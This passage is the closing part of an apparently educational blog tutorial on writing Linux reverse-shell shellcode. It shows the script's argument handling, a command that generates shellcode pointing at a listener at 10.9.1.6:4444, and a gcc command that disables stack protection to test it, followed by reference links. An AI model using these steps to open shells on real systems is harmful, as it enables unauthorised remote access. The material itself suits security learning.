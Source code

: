 ```py
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)

```

Prepare listener, run script, copy shellcode to our test program, compile and run:         
```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

![run C code](/assets/images/14/2021-10-16_17-38.png){:class="img-responsive"}       

So our shellcode is perfectly worked :)        

This is how you create your own shellcode, for example.             

> This is a practical case for educational purpose only. 

[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)              
[Shellcoding in Linux by exploit-db](https://www.exploit-db.com/docs/english/21013-shellcoding-in-linux.pdf)              
[my intro to x86 assembly](/tutorial/2021/10/03/malware-analysis-1.html)          
[my nasm tutorial](/tutorial/2021/10/08/malware-analysis-2.html)           
[ip](https://man7.org/linux/man-pages/man7/ip.7.html)                
[socket](https://man7.org/linux/man-pages/man2/socket.2.html)           
[connect](https://man7.org/linux/man-pages/man2/connect.2.html)             
[execve](https://man7.org/linux/man-pages/man2/execve.2.html)         
[first part](/tutorial/2021/10/09/linux-shellcoding-1.html)                   
[Source code in Github](https://github.com/cocomelonc/2021-10-17-linux-shellcoding-2)         

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*